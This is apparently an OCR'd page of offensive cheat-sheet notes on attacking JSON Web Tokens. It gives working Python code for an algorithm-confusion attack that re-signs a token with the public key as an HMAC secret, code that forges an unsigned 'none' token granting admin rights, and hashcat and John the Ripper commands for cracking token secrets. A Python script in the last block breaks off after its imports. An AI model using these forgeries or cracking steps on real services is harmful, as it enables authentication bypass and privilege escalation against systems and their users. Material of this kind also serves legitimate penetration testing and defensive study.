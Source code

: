 **Algorithm Confusion Attacks:**
```python
import jwt
import base64
import hmac

# Original JWT (RS256)
original_token = "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9..."

# Decode header and payload
header = jwt.get_unverified_header(original_token)
payload = jwt.decode(original_token, options={"verify_signature": False})

# Change algorithm to HS256
header['alg'] = 'HS256'
payload['admin'] = True

# Get public key (usually available at /.well-known/jwks.json)
public_key = """-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQE...
-----END PUBLIC KEY-----"""

# Create new token using public key as HMAC secret
new_token = jwt.encode(payload, public_key, algorithm='HS256', headers=header)
```

**None Algorithm Attack:**
```python
import jwt
import json
import base64

# Decode original token
original_token = "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9..."
payload = jwt.decode(original_token, options={"verify_signature": False})

# Modify payload
payload['admin'] = True

# Create header with 'none' algorithm
header = {"typ": "JWT", "alg": "none"}

# Manually create token
header_encoded = base64.urlsafe_b64encode(json.dumps(header).encode()).decode().rstrip('=')
payload_encoded = base64.urlsafe_b64encode(json.dumps(payload).encode()).decode().rstrip('=')

# None algorithm tokens end with empty signature
malicious_token = f"{header_encoded}.{payload_encoded}."
```

**JWT Secrets Brute Force:**
```bash
# Using hashcat
hashcat -a 0 -m 16500 jwt_token.txt /usr/share/wordlists/rockyou.txt

# Using john the ripper
john jwt_token.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256

# Using custom Python script
import jwt
import itertools
import string

token = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9..."

```